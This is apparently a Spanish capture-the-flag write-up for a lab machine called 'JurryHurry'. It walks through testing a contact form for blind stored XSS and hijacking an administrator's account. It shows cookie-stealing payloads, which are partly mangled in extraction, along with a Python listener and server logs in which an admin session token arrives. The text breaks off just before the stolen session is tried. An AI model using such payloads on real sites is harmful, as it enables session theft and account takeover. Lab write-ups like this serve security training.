





-- -

## Enumeration

Vamos a ver la aplicación:



Navegando por la aplicación podemos ver lo siguiente:


Vamos a probar el formulario de contacto:


## Blind Stored XSS + ATO via Session Hijacking

Posiblemente esto se envíe a alguna otra zona de la aplicación, vamos a probar a explotar un Blind Cross-Site Scripting, para ello en cada campo usaremos el siguiente payload:

```html
/<input_name>')+/>
```


Esto para detectar si hay algún campo vulnerable a XSS, vamos a la solicitud:


Ahora abriremos un servidor con `python3` y esperaremos:
```bash
╭─ root [at] exegol-wvl 🚀 [on] /workspace/JurryHurry
╰─ >> python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.8.0.1 - - [15/Nov/2026 20:50:40] code 404, message File not found
10.8.0.1 - - [15/Nov/2026 20:50:40] "GET /message HTTP/1.1" 404 -
10.8.0.1 - - [15/Nov/2026 20:50:40] code 404, message File not found
10.8.0.1 - - [15/Nov/2026 20:50:40] "GET /message HTTP/1.1" 404 -
```

Vamos a intentar robar la sesión del administrador:
```html
/?sess='+%2bdocument.cookie)+/>
```

```bash
╭─ root [at] exegol-wvl 🚀 [on] /workspace/JurryHurry
╰─ >> python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.8.0.1 - - [15/Nov/2026 20:54:00] code 404, message File not found
10.8.0.1 - - [15/Nov/2026 20:54:00] "GET /message HTTP/1.1" 404 -
10.8.0.1 - - [15/Nov/2026 20:54:20] code 404, message File not found
10.8.0.1 - - [15/Nov/2026 20:54:20] "GET /message HTTP/1.1" 404 -
10.8.0.1 - - [15/Nov/2026 20:54:40] code 404, message File not found
10.8.0.1 - - [15/Nov/2026 20:54:40] "GET /message HTTP/1.1" 404 -
10.8.0.1 - - [15/Nov/2026 20:54:40] "GET /?sess=jh_session=58a1a57159a360d1bf111c827c9a8ed30642cfd73751ba04 HTTP/1.1" 200 -
```

Vamos a probar la sesión:

-- -
